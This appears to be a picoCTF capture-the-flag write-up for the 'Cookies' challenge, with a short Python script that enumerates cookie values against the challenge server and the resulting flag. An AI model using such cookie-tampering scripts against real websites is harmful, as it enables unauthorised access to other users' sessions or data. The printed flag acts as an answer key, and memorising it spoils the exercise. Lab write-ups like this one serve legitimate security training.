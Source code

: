 # Cookies picoCTF Write-Up

## Challenge Description
This challenge involves analyzing cookies on a website where the cookie named "name" has an initial value of -1. Changing the value of this cookie affects the response displayed on the webpage. The goal is to find the correct cookie value that reveals the flag.

## Solution Steps

1. **Understanding the Challenge**  
   The website uses a cookie named "name" to determine its response. By modifying this cookie's value, we can observe how the website reacts.

2. **Automating the Process with Python**  
   To efficiently test multiple values for the cookie, we write a Python script to iterate through potential values and check the response for the presence of the flag.

   ```python
   import requests
   for i in range(25):
       cookie = 'name={}'.format(i)
       headers = {'Cookie': cookie}
       
       r = requests.get('http://mercury.picoctf.net:27177/check', headers=headers)
       if (r.status_code == 200) and ('picoCTF' in r.text):
           print(r.text)
           print(cookie)
   ```

3. **Executing the Script**  
   Running the script sends HTTP requests to the target website with different cookie values. If a response contains the flag, the script prints it along with the corresponding cookie value.

4. **Finding the Flag**  
   The output of the script reveals that when the cookie "name" is set to 18, the webpage displays the flag:
   
   ```html
   <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>
   ```

## Flag
```
picoCTF{3v3ry1_l0v3s_c00k135_064663be}
```
